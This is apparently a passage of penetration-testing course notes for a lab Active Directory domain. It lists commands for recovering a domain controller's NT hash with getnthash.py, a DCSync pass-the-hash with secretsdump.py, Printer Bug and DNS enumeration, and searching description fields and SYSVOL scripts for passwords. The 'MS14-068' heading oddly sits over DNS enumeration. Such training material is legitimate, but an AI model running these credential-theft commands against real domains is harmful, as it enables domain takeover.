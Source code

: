 ### Submitting a TGS Request for Ourselves Using getnthash.py
```
python /opt/PKINITtools/getnthash.py -key <key> INLANEFREIGHT.LOCAL/ACADEMY-EA-DC01$
```
We can then use this hash to perform a DCSync with secretsdump.py using the -hashes flag.
```
secretsdump.py -just-dc-user INLANEFREIGHT/administrator "ACADEMY-EA-DC01$"@172.16.5.5 -hashes aad3c435b514a4eeaad3b935b51304fe:313b6f423cd1ee07e91315b4919fb4ba
```
# Miscellaneous Misconfigurations
## Printer Bug
### Enumerating for MS-PRN Printer Bug
```
Import-Module .\SecurityAssessment.ps1
```
```
https://github.com/NotMedic/NetNTLMtoSilverTicket
```
```
Get-SpoolStatus -ComputerName ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL
```
## MS14-068
### Enumerating DNS Records
```
https://github.com/dirkjanm/adidnsdump
```
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5
```
Viewing the Contents of the records.csv File
```
head records.csv
```
If we run again with the -r flag the tool will attempt to resolve unknown records by performing an A query
```
adidnsdump -u inlanefreight\\forend ldap://172.16.5.5 -r
```
## Password in Description Field
### Finding Passwords in the Description Field using Get-Domain User
```
Get-DomainUser * | Select-Object samaccountname,description |Where-Object {$_.Description -ne $null}
```
### Checking for PASSWD_NOTREQD Setting using Get-DomainUser
```
PS C:\htb> Get-DomainUser -UACFilter PASSWD_NOTREQD | Select-Object samaccountname,useraccountcontrol
```
### Credentials in SMB Shares and SYSVOL Scripts
```
PS C:\htb> ls \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts
```
```
PS C:\htb> cat \\academy-ea-dc01\SYSVOL\INLANEFREIGHT.LOCAL\scripts\reset_local_admin_pass.vbs
```